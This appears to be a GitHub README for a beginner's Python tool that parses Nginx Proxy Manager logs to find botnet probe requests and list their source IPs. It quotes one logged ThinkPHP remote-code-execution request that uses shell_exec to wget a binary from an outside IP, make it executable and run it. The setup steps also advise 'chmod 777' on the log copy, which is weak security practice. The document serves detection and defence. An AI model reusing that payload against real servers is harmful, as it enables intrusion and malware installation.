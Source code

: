 # Update

I have found a way to filter out the IPs that send these requests and I've made a new script that does precisely that. To make it easier for anyone to run this script I've also implemented a simple menu for users to navigate trough with the ability to first parse the logs to find out any requests similar to the ones I've found and after that filter out all of this requests and it builds an list of indidual IPs that sent these requests.

It also creates all the directories it needs to work properly, and the only set up you need to do is the following:

1- A simple git clone command will copy everything you need to run this script, besides Python3 you have to set that up by yourself if your system does not come with python.

2- When you first run this script it asks for an **absolute path** to the default.log file, but **first make a copy of that file onto an other directory**. after that cd into that directory you just copied the file to and run the command `sudo chmod 777 default.log`, then you can run `pwd` and copy that output add an *default.log* to the end of it and give it as the absolute path for the default.log file.

3- **DO NOT TRY TO RUN THIS SCRIPT BEFORE DOING STEP 2!!** If you don't do that, the script will never stop running and you'll probably have to restart your machine and start over. I copied all the files from my NPM server to an usb drive and ran this script on my laptop just to be sure I don't get myself into an infinite loop!

4- You will probably have to run `chmod +x npm_log_parser.py` to make this script executable, so `cd` into the directory your git command created and then run the chmod command, after that you just need to type `./npm_log.parser.py` into the command line and the script will run. It will store a parsed version of the *default.log* file inside a directory called *parsed* and the results of the IP filter script inside a directory called *results*

As long as you keep the known issues in mind the script should always work, I started out with 374 lines of NPM logs, parsed them into 105 single lines, then was able to filter out a grand total of 81 unique public IPs making these requests!

This script should work in any linux distribution, however I only tested it in Pop Os 20.10, but from what I know the commands the script runs to create the folders on first start exist in all Unix based systems, *I think..*

**Known Issues**
If you chose option 1 in the main menu after parsing the default.log file the program will ask you if you want it to filter out the results right away, this almost works... If I run the script like this I get 78 unique public IPs, if I say `n` and grab the filename it gives me before quitting and restart the script and select option 2 and give it the name I just grabbed it will give me 81 unique IPs, which is my expected output.

# About this script

The idea behind this script comes from finding out a bunch of really strange requests to my Nginx Proxy Manager container that is open to the internet.
The requests in case are almost always identical to this:

`[13/Jan/2021:15:07:48 +0000] 400 - GET http localhost-nginx-proxy-manager "/index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://193.239.147.174/bins/MwEIrNsdFa.x86 -O thonkphp ; chmod 777 thonkphp ; ./thonkphp ThinkPHP ; rm -rf thinkphp'" [Client 220.127.239.7] [Length 154] [Gzip -] "Uirusu/2.0" "-"`

The client IP is always different from what I can tell so far and the IP that it tries to wget is almost always different, trying to run that wget command will give you an "Not Authorized" response. **This script is not a solution for this issue** it just goes trough your NPM logs and finds out all the requests similar to this and puts them in a different file, I started out with a log file with 370 requests and, after running this script I got 108 requests that match the one I posted above, keep in mind that these 370 requests come from a timespan of less than 36h. And yes I am aware that NPM does not use PHP so this attempt to inject an PHP script most likely never runs ence the 400 (bad request) response from NPM, *however the authors of this could move from trying to inject PHP payloads to injecting something else that could work!*

This script reads trough your Nginx Proxy Manager logs, specially the **default.log** file stored inside your npm directory, right now you need an copy of the logs directory inside the root of this script's folder with the name of *logs*, you also need to create a directory called **parsed** so that the script can write a file with all of the requests that it looks for. It also asks for your Public IP in order to filter out your own requests to your npm server.

After running the script it will tell you how many results it got and it will also create a file that stores all of the requests it finds inside the **parsed** directory inside a file called **parsed-default.log**

Right now this scripts only does this, however I'm going to keep developing this script until it is able to extract a list of IPs from the *parsed-default.log*, besides doing this, the script will also be able to tell if the same IP tries to make this request more than once, the point of this is to see if these requests come from all over the world or just from countries known to have botnets like this running, like Iran, China and so on. So far I can say that this is not the case, because I've already found IPs from Italy and the UK that seem residential IPs but further investigation is required to reach an conclusion.

For anyone thinking that bulk blocking the IP ranges that this script find keep in mind that these IPs could also be comming from countries in the world that usually are known for not having these kinds of requests and you could possibly block people that you actually want to access your services without even knowing.

And finally a disclaimer, I am by no means a Python expert, just started to learn it less than a month ago, so it's probably going to take a while before I'm able to filter out the requests into a list of IP's. If you are willing to help me improve this script onto something that could help the NPM developers develop an fix for this feel free to contact me.
